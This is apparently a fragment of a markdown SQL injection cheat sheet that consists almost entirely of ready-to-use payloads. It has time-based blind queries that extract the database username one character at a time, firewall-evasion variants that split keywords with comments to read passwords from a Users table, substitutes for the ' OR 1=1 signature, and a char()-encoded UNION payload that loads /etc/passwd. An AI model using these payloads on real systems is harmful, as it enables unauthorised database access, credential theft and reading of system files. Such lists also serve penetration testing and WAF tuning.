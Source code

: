 ##### Check if third character in the username contains 'A' (a=97), 'B', or 'C' and so on

```sh
1; IF (ASCII(lower(substring((USER),3,1)))=97) WAITFOR DELAY '00:00:5'--
1; IF (ASCII(lower(substring((USER),3,1)))=98) WAITFOR DELAY '00:00:5'--
1; IF (ASCII(lower(substring((USER),3,1)))=99) WAITFOR DELAY '00:00:5'--
...
```

#### Bypass firewall

##### Normalization method

```sh
1/*union*/union/*select*/select+1,2,3/*
```
```sh
'/**/UN/**/ION/**/SEL/**/ECT/**/password/**/FR/**/OM/**/Users/**/WHE/**/RE/**/username/**/LIKE/**/'admin'--
```

###### Evading ' OR 1=1 signature

```sh
'OR 'john'='john'
```
```sh
'OR 8 > 4
```
```sh
'OR 5 BETWEEN 4 AND 6
```
```sh
'OR 'apple'='app'+'le'
```
```sh
'OR 'software like 'soft%''
```
```sh
'OR 'asd'>'a'
```
```sh
'OR 'movies'=N'movies'
```
```sh
'OR 'blabla' IN ('blabla')
```

##### Character enconding

###### Load files in unions (string="/etc/passwd")

```sh
' union select 1,(load_file(char(47,101,116,99,47,112,97,115,115,119,100))),1,1,1;
```

###### Inject without quotes (string = "%")
```sh
' or username like char(37)
```
